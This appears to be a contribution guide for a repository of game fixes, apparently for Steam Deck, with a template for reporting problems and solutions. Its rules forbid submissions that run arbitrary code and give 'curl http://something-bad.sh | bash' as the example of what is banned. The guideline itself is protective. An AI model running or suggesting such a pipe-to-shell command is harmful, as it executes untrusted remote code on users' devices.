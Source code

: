 You can share your fix either with 
 * A pull request (developper way)
 * By filling an issue (other people > button issues above > new > copy paste the template below and replace content accordingly)

Please follow the template bellow to makes it simpler to me to integrate with existing work.

### Game name - Platform name

[Source](http://alinktothesource.com)

(link have to be written like below in github)

![image](https://user-images.githubusercontent.com/5399780/211127340-f72de26c-a515-418c-bc4a-1cfdb6e0c793.png)


Problem :

 - Describe the problem in a concise way to **let folks easily identify** if they have the same issue

Solution :

 * Describe a reproductible way to solve the issue as you can. keep in mind many users are non technical persons that should be able to do the trick from your steps.
 * A link to external ressource has a great chance to be removed to prevent user running arbitrary code on their devices. 
 * If commands are provided (let say bash things), it must remain simple and concise and must NOT trigger arbitrary code (e.g curl http://something-bad.sh | bash)
 * Specific commands with explicit values might be allowed sed -i s/thing/newvalue/ /home/deck/path/to/game/settings.ini

Have a look to existing tricks for inspiration 😉

I am open to any suggestion, do not hesitate to ask / share !
